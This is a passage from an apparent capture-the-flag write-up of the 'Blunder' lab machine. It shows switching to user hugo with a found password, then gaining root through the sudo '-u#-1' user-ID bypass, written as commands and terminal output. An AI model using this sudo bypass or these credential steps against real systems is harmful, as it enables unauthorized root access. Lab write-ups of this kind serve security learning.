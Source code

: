 su to `hugo : Password120` and I got user flag.

```bash
$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd /home
cd /home
hugo@blunder:/home$ ls
ls
hugo  shaun
hugo@blunder:/home$ cd hugo
cd hugo
hugo@blunder:~$ cat user.txt
cat user.txt
```

## Privilege Escalation

Like always I started with `sudo -l`

```bash
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

> [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

When we do `sudo` it doesn't check if the user even exists or not, so it tends to execute it with the specified argument as a user itself. Now, -u is used to define the user itself, #-1 will return 0, the default value of root itself.

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# cd /root
cd /root
root@blunder:/root# cat root.txt
cat root.txt
```